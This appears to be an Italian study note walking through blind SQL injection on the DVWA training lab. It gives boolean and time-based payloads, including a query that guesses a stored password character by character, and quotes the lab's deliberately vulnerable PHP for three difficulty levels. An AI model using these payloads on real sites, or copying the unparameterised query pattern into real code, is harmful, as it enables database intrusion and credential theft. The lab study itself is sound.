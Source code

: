 ## SQL injection (Blind)

- http://www.securiteam.com/securityreviews/5DP0N1P76E.html
- https://en.wikipedia.org/wiki/SQL_injection
- https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
- http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
- https://owasp.org/www-community/attacks/Blind_SQL_Injection
- http://bobby-tables.com/

TODO prova sqlmap

L'applicazione è vulnerabile all'injection ma l'attaccante non vede l'output, può solo dedurre informazioni dal risultato vero/falso della query.
Considerando che la richiesta `http://example.example.com/show.php?id=5` fa eseguire la query `select * from tablename where id = 'id'`, l'attaccante può eseguire le seguenti richieste: `http://example.example.com/show.php?id=5 or 1=1`, `http://example.example.com/show.php?id=5 and 1=2`.
Se la prima carica il contenuto (vera secondo `or 1=1`) mentre la seconda produce un errore (falsa secondo `and 1=2`), l'applicazione è probabilmente vulnerabile.
L'attaccante può sfruttare questa vulnerabilità per estrarre informazioni puntuali (es. versione di MySQL).
L'attaccante esegue `http://example.example.com/show.php?id=5 and substring(@@version, 1, instr(@@version, '.') - 1)=4`.
Se il contenuto (`id=5`) viene mostrato allora la versione è 4, diversamente ottiene un errore.

Nei casi in cui l'output dell'applicazione in seguito alle injection non produca nessuna differenza, posso usare `waitfor delay '0:00:10'`, `sleep(10)` o `pg_sleep(10)`.
Oppure `benchmark(1000000000, md5(1))` (esegue 1000000000 di volte md5(1)).

Posso sfruttare anche le condizioni `if`.
Injection: `1 union select if(substring(user_password, 1, 1) = char(50), benchmark(5000000, encode('msg', 'by 5 seconds')), null) from users where id = 1;`.
Se la risposta è ritardata, posso supporre che il primo carattere della password dell'utente con `id = 1` sia `2` (`char(50)`).
Preparando injection diverse posso enumerare il contenuto del database.

### SQL injection (Blind) - Low

```
// Get input
$id = $_GET[ 'id' ];

// Check database
$getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

// Get results
$num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
if( $num > 0 ) {
	// Feedback for end user
	echo '<pre>User ID exists in the database.</pre>';
}
else {
	// User wasn't found, so the page wasn't!
	header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );
	// Feedback for end user
	echo '<pre>User ID is MISSING from the database.</pre>';
}
```

Exploit:

- inietta `2 and 'x'='c'`

### SQL injection (Blind) - Medium

```
// Get input
$id = $_POST[ 'id' ];
```

Exploit:

- inietta `2 and 'x'='c'`

### SQL injection (Blind) - High

```
// Get input
$id = $_COOKIE[ 'id' ];

...

// Get results
$num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
if( $num > 0 ) {
	// Feedback for end user
	echo '<pre>User ID exists in the database.</pre>';
}
else {
	// Might sleep a random amount
	if( rand( 0, 5 ) == 3 ) {
		sleep( rand( 2, 4 ) );
	}
	// User wasn't found, so the page wasn't!
	header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );
	// Feedback for end user
	echo '<pre>User ID is MISSING from the database.</pre>';
}
```

Exploit:

- inietta `1 union select 1,2 #`


